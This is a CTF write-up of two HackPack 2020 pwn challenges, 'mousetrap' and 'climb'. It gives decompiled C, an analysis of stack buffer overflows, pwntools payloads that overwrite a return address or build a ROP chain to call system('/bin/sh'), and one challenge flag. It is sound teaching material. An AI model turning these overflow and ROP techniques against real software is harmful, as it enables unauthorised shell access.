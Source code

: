 # HackPack CTF 2020 

> HackPack CTF is a security competition that is part of two security  courses at NCSU: CSC-405 Computer Security and CSC-591 Systems Attacks  and Defenses. The target audience is people interested in computer  security that have some related background (like took a security course  before ;) and want to exercise their skills in a secure environment by  solving security challenges.


## mousetrap (232pt)
### Description

> Are you savvy enough to steal a piece of cheese?
>
> nc cha.hackpack.club 41719

### Attachment

[mousetrap](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackPack-CTF-2020/pwn/mousetrap/mousetrap)

### Analysis

When I try to input a long serials of `'a'` I see that:

![](http://image.taqini.space/img/20200429192949.png)

that means some variable was overwritten.

Then analyze the program:

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+10h] [rbp-120h]
  char v5; // [rsp+110h] [rbp-20h]
  __int64 v6; // [rsp+128h] [rbp-8h]

  v6 = 10LL;
  init(*(_QWORD *)&argc, argv, envp);
  menu();
  set_mouse_name(&v5);
  deactivate_trap(&v4, v6);
  grab_cheese(&v4);
  printf("SNAAAAAAAP! you died!");
  return 0;
}
```


```c
ssize_t __fastcall set_mouse_name(void *a1){
  printf("Name: ");
  return read(0, a1, 0x20uLL);
}
```
> read 32  bytes to `v5` while size of `v5` is only 24 bytes
>
> So we can overwrite backward to `v6` with 8 bytes

```c
ssize_t __fastcall deactivate_trap(__int64 a1, __int64 a2){
  size_t nbytes; // ST00_8
  void *buf; // ST08_8

  printf("Enter Code Sequence of %ld: ", a2, a2, a1);
  return read(0, buf, nbytes);
}
```

> In gdb we can see that`v6` is `nbytes` 
>
> We can control the value of `v6` so we can read as **many** as possible bytes to `buf`


```c
char *__fastcall grab_cheese(const char *a1){
  char dest; // [rsp+10h] [rbp-10h]

  return strcpy(&dest, a1);
}
```

> copy `buf` to `dest[0x10]` (buffer overflow again)

```c
int cheeeeeeeese(){
  return system("/bin/sh");
}
```

> When we call `cheeeeese`, we can get an shell.

### Solution

Overwrite `v6/nbytes` with 1000 (enough to overflow `dest`)

```python
payload = 'A'*24
payload += p64(1000)
sea('Name: ',payload)
```

Overwrite return address with `cheeeeese`

```python
cheeeeese = 0x040071B
pl2 = 'B'*24
pl2 += p64(cheeeeese)
sla('Enter Code Sequence of 1000: ',pl2)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackPack-CTF-2020/pwn/mousetrap) 



## climb (396pt)

### Description

> Can you help me climb the rope? 
>
> `nc cha.hackpack.club 41702`


### Attachment

[climb](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackPack-CTF-2020/pwn/climb/climb)

### Analysis

a simple ret2text challenges

### Solution

#### rop

read `cmd` string to `bss` and then call `system(cmd)`

```python
offset = 40
payload = 'A'*offset
payload += p64(prsi_r15) + p64(elf.bss()+0x400)*2 + p64(elf.sym['read']) 
payload += p64(ret) + p64(prdi) + p64(elf.bss()+0x400) + p64(elf.sym['system']) 

sla('How will you respond? ',payload)
sl('/bin/sh')
```

> flag: flag{w0w_A_R34L_LiF3_R0pp3r!}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackPack-CTF-2020/pwn/climb) 
